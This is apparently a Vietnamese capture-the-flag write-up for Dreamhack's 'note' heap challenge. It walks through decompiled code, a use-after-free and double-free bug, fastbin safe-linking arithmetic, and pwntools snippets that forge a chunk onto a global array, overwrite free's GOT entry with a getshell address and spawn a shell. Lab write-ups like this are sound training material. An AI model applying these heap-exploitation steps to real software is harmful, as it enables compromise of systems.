# Challenge: note
### Platform : Dreamhack
### Difficulty: Gold 3
### Link: [note](https://dreamhack.io/wargame/challenges/1346)
## **Kiểm tra thông tin cơ bản và cơ chế bảo mật**

## Phân tích
Vì file đã bị stripped nên chúng ta sẽ vào ghidra để khôi phục lại một số symbol.

Đầu tiên là hàm **main():**
```C
undefined8 main(void)
{
  long in_FS_OFFSET;
  int choice;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  init();
  while( true ) {
    while( true ) {
      while( true ) {
        menu();
        __isoc99_scanf(&DAT_00402012,&choice);
        if (choice != 4) break;
        delete();
      }
      if (4 < choice) goto LAB_004017a1;
      if (choice != 3) break;
      update();
    }
    if (3 < choice) break;
    if (choice == 1) {
      create();
    }
    else {
      if (choice != 2) break;
      read();
    }
  }
LAB_004017a1:
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
Đối với hàm **main()**, ta thấy rằng hàm này cơ bản sẽ vào **menu()** in các thao tác:
```C
void menu(void)

{
  puts("1. create");
  puts("2. read");
  puts("3. update");
  puts("4. delete");
  printf("> ");
  return;
}
```
Sau đó đối với mỗi lựa chọn sẽ thực hiện các thao tác khác nhau như trên.

Hàm khởi tạo **init():**
```C
void init(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  return;
}
```
Và sau đó là các hàm thao tác:

Hàm **create():**
```C

void create(void)

{
  int iVar1;
  void *pvVar2;
  long in_FS_OFFSET;
  int _Id;
  ulong _size;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  printf("idx: ");
  __isoc99_scanf(&DAT_00402012,&_Id);
  if ((_Id < 0) || (9 < _Id)) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("size: ");
  __isoc99_scanf(&DAT_0040202d,&_size);
  iVar1 = _Id;
  if (0x70 < _size) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  buf[_Id].Size = _size;
  pvVar2 = calloc(_size,1);
  buf[iVar1]._ptr = pvVar2;
  if (buf[_Id]._ptr == (void *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("data: ");
  read(0,buf[_Id]._ptr,_size);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Với **create()**, hàm này sẽ thực hiện khởi tạo dữ liệu thông qua biến toàn cục **buf** có cấu trúc như sau:
```C
My_struct {
    ulong Size; // 8 byte
    void *_ptr; // 8 byte
}
```
Như ở trên, chúng ta sẽ chỉ khởi tạo các giá trị $id \in [0,9]$ và $size < 0x70$. Sử dụng hàm **calloc()** và ghi vào vùng nhớ vừa tạo.

Hàm **read():**
```C
void read(void)

{
  long in_FS_OFFSET;
  int id;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("idx: ");
  __isoc99_scanf(&DAT_00402012,&id);
  if ((id < 0) || (9 < id)) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (buf[id]._ptr == (void *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("data: %s\n",buf[id]._ptr);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Chỉ đơn giản là đọc dữ liệu trong vùng $id$ cho phép

Hàm **update():**
```C
void update(void)
{
  long in_FS_OFFSET;
  int id;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("idx: ");
  __isoc99_scanf(&DAT_00402012,&id);
  if ((id < 0) || (9 < id)) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (buf[id]._ptr == (void *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("data: ");
  read(0,buf[id]._ptr,buf[id].Size);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Cũng không có gì quá khó hiểu đối với hàm này, cuối cùng là

Hàm **delete():**
```C
void delete(void)
{
  long in_FS_OFFSET;
  int id;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("idx: ");
  __isoc99_scanf(&DAT_00402012,&id);
  if ((id < 0) || (9 < id)) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (buf[id]._ptr == (void *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  free(buf[id]._ptr);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Hàm thực hiện việc giải phóng vùng nhớ mà ta chỉ định theo $id$, đặc biệt sau khi **free()** đã không gắn lại giá trị *Null* cho con trỏ đã được cấp phát. Kết hợp với các thao tác ở trên, chúng ta có thể dễ dàng thấy được ở đây là có ít nhất hai lỗi, trong số đó là **UAF** và **Double Free**. Khi tìm kiếm tôi còn thấy một hàm nữa khá hữu ích và đây có thể là ý đồ của người ra đề

```C
void getshell(void)
{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```
Để gọi hàm này thì chúng ta phải ghi địa chỉ của nó vào đâu đó qua con trỏ hàm tuy nhiên như đã thấy ở trên, không có dòng code liên quan tới việc gọi hàm. Vì vậy, ta sẽ áp dụng kỹ thuật GOT Overwrite. Ý tưởng là ghi đè một mục (GOT entry) của hàm mục tiêu bằng địa chỉ của hàm **getshell()**. Khi chương trình gọi hàm mục tiêu thông qua PLT/GOT, luồng thực thi sẽ được chuyển hướng đến **getshell()**.

Vì cơ chế **PIE** đã tắt nên ta sẽ biết được địa chỉ của các section như .got/ptl chứa GOT và .bss chứa địa chỉ hàm buf, đây là một lợi thế mà ta có thể khai thác. Ta sẽ check xem phiên bản file libc đang được sử dụng



Tại phiên bản này cơ chế **Tcache** đang được sử dụng, nhưng mà chương trình xài hàm **calloc()** nên khi được cấp phát nó sẽ không tái sử dụng lại vùng nhớ được giải phóng được lưu trong **Tcache** nhưng khi giải phóng thì vùng nhớ đó vẫn sẽ được nó. Và thêm một điều nữa **Tcache** với mỗi size chỉ lưu tối đa 7 vùng nhớ đã được giải phóng, sau đó khi giải phóng một vùng nhớ cùng size thì nó sẽ vào **fastbin**

Với việc ta có thể cấp phát tối đa 10 vùng nhớ khi đó ta sẽ có thể đưa vùng nhớ vào **fastbin**. Chúng ta sẽ không đi quá sâu vào fastbin. Về cơ bản, chúng là cơ chế quản lý các heap chunk nhỏ đã được giải phóng thông qua danh sách liên kết đơn , hoạt động theo nguyên tắc LIFO. Quản lý thông qua con trỏ $fd$ với mỗi chunk sẽ trỏ tới chunk ở trước nó. Giá trị của $fd$ sẽ được mã hóa như sau, giả sử đang giải phóng một chunk ta có:

```math
\text{fd} =(\text{userdata\_chunk} \gg 12) \oplus \text{chunk\_head}
```

$\bullet$ $fd$ là giá trị mã hóa của chunk hiện tại được giải phóng

$\bullet$ $userdata\_chunk$ là địa chỉ vùng userdata của chunk hiện tại được giải phóng

$\bullet$ $chunk\_head$ là địa chỉ header của chunk được giải phóng trước đó

Cần lưu ý rằng, các chunk có cùng kích thước được quản lý trong cùng một **fastbin**, thông qua mảng **fastbinsY[NFASTBINS]**. Mỗi phần tử của mảng là con trỏ đến chunk đầu tiên của danh sách liên kết đơn tương ứng, như ví dụ kia là $chunk\_head$, giá trị $fd$ sẽ được lưu tại $userdata\_chunk$ tương ứng với mỗi chunk.

Và khi được cấp phát, nó cấp cho chúng ta địa chỉ chunk ở đầu danh sách và cập nhật địa chỉ của chunk tiếp theo sẽ được cấp phát bằng công thức:

```math
\text{chunk\_head\_next} = (\text{userdata\_chunk\_head} \gg 12) \oplus \text{fd}
```

$\bullet$ $chunk\_head\_next$ là địa chỉ của chunk kế tiếp

$\bullet$ $userdata\_chunk\_head$ là địa chỉ vùng userdata của chunk ở đầu danh sách hiện tại

$\bullet$ $fd$ là giá trị của vùng userdata của chunk đầu danh sách

Vậy tại sao ta lại quan tâm tới điều này? Việc có thể đọc lại vùng nhớ của chunk vừa được giải phóng giúp ta có thể đọc được giá trị $fd$ này và thông qua hàm **update()** ta có thể ghi đè giá trị $fd$ và bắt cấp phát tới địa chỉ mục tiêu mà chúng ta muốn hướng tới. Giờ ta đã có các công cụ cần rồi.

## Khai thác

Đầu tiên ta sẽ tiến hành cấp phát liên tục 7 vùng nhớ cùng kích thước rồi sau đó giải phóng chúng để làm đầy **tcache**. Sau đó khi cấp phát lại một vùng nhớ mới cùng kích thước, giải phóng nó rồi đọc giá trị $fd$ đang lưu, ta sẽ đặt break tại trước hàm **menu()** để quan sát.

```py
gdb.attach(p,gdbscript = '''
    b *0x40172e
    c''')
create(0,0x70,"a")
for i in range(1,8):
    create(i,0x60,"a")
    delete(i)
create(8,0x60,"a")
delete(8)
read(8)
leak = u64(p.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
print("leak_fd = {hex(leak)}")
```





Vùng nhớ vừa được giải phóng là 0xdcff630, ta khi lấy 0xdcff630 >> 12 hoàn toàn bằng 0xdcff như  ta đã leak. Giờ ta cần biết của vùng nhớ heap nên ta sẽ tạo và free một chunk nữa để biết fd tiếp theo. 
```py
create(8,0x60,"a")
create(9,0x60,"a")
delete(8)
delete(9)
read(9)
leak2 = u64(p.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
print(f"leak_fd2 = {hex(leak2)}")
print(f"header_chunk = {hex(leak2^leak)}")
```


Nhắc lại công thức: 

```math
\text{fd} = (\text{userdata\_chunk} \gg 12) \oplus \text{chunk\_head}
```

$\bullet$ $fd$ là giá trị mã hóa của chunk hiện tại được giải phóng

$\bullet$ $userdata\_chunk$ là địa chỉ vùng userdata của chunk hiện tại được giải phóng

$\bullet$ $chunk\_head$ là địa chỉ header của chunk được giải phóng trước đó

Nên ta suy ra: 

```math
\text{chunk\_head} = (\text{userdata\_chunk} \gg 12) \oplus \text{fd}
```

Và bất ngờ chính giá trị mà ta leak lúc đầu là ${userdata\_chunk} >> 12$ bởi vì:

```math
\text{fd\_first(leak)} = (\text{userdata\_chunk} \gg 12) \oplus \text{Null}
```

Do lúc chưa có vùng nào trong fastbin nên giá trị đầu của nó là Null, giờ ta có thể suy ra địa chỉ $chunk\_head$ của vùng nhớ đầu tiên đưa vào fastbin là:

```math
\text{chunk\_head} = fd\_first(leak) \oplus \text{fd(leak2)}
\\ = 0xdcf2adf \oplus 0xdcff = 0xdcff620
```

Như ảnh trên mà chúng ta đã check hoàn toàn trùng khớp:


Lúc này, fastbin tại kích thước 0x70 đang trỏ tới địa chỉ header của chunk vừa được chúng ta giải phóng, khi mà chúng ta cấp phát tiếp một chunk có cùng kích thước thì nó sẽ cấp phát địa chỉ header + 0x10 tức vùng userdata và cập nhật vị trí lưu tiếp theo thông qua công thức mà chúng ta đã nhắc lúc nãy:

```math
\text{chunk\_head\_next} = (\text{userdata\_chunk\_head} \gg 12) \oplus \text{fd}
```

$\bullet$ $chunk\_head\_next$ là địa chỉ của chunk kế tiếp

$\bullet$ $userdata\_chunk\_head$ là địa chỉ vùng userdata của chunk ở đầu danh sách hiện tại

$\bullet$ $fd$ là giá trị của vùng userdata của chunk đầu danh sách

Với việc đã biết $userdata\_chunk\_head$ và ta có thể ghi đè fd hiện tại, ta có thể làm cho thao tác cấp phát tiếp theo trả về địa chỉ mà ta mong muốn, nhưng đó nên là địa chỉ nào?

Khi mà fastbin được cấp phát một chunk nó sẽ check xem size cấp phát của chunk hiện tại có bằng kích thước yêu cầu hay không. Nên chúng ta phải hướng tới một vùng nhớ nào có điều kiện thỏa mãn, giả sử như a là địa chỉ mà chúng ta muốn được cấp thì nó phải thỏa mãn:

```math
\text{0x70}
=
(a - 0x80)\ \
\&\ \sim \text{0x7}
```

0x70 là kích thước mà ta đầu chúng ta muốn đưa vào fastbin, tại sao ở trên tôi toàn cấp phát 0x60 mà giờ là 0x70? Vì 0x60 là kích thước dữ liệu của phần userdata, cộng thêm phần prev_size và size là thành 0x70. Tới đây ý tưởng của tôi là muốn địa chỉ ghi đè sắp tới là của mảng buf, tại sao thì tí nữa chúng ta sẽ trình bày. Nhớ thao tác 

```py
create(0,0x70,"a")
```

lúc đầu mà tôi thực hiện không, đó là dành cho trường hợp này,
khi đó buf[0].Size = 0x70 phù hợp với điều kiện của chúng ta, giờ hãy xem địa chỉ của buf[0] lưu ở đâu.



Đây là nó lưu ở 0x4040a8, với trường size = 0x70 và  _ptr = 0xdcff2a0, khi check ta thấy thì nó có size_chunk = 0x70 và userdata lưu 0x61 tức là "a" mà ta đã khởi tạo.

Xem nó như một chunk, để khớp phần size_chunk thì địa chỉ sẽ là 0x4040a0 ta sẽ tính fd hiện tại thông qua công thức lúc nãy rồi ghi đè vào fd hiện tại

```py
update_int(9,p64((leak >> 12) ^ 0x4040a0))
```

Khởi tạo chunk mới cùng kích thước để đầu fastbin là địa chỉ mà chúng ta mong muốn

```py
create(8,0x60,"a")
```

Nếu giờ bây giờ ta cấp phát chunk mới thì nó sẽ đưa địa chỉ mà chúng ta đã phân tích. Khi mà tạo xong thì sẽ đến phần ghi dữ liệu, chúng ta sẽ lợi dụng điều đó để ghi đè buf[1]._ptr thành địa chỉ của (GOT entry) tương ứng với hàm free.



Đó là 0x404018, và ta có thể ghi đè lại trường size kích thước tùy ý nhưng trên thực tế ta chỉ cần lớn hơn 0x08 là được.

```py
create_int(9,0x60,b'a'*8+p64(0x70)+p64(0x404018))
```

Ta xem kết quả sau thao tác:



Địa chỉ vùng nhớ buf[1] là 0x4040b8 đã chứa size là 0x70 và _ptr = 0x404018 như chúng ta thao tác ở trên. Bây giờ ta sẽ ghi địa chỉ hàm **getshell()** vào buf[1]._ptr, tìm địa chỉ **getshell()** thông qua hàm execve tại section .text





Hàm **getshell()** có địa chỉ tại 0x401256, ta sẽ ghi nó vào GOT entry tương ứng với hàm free

```py
update_int(1,p64(0x401256))
```

Sau đó kiểm tra:



Đã thành công, giờ ta gọi hàm free để thực thi **getshell()**

```py
delete(1)
```



Áp dụng ta sẽ có kết quả như sau:

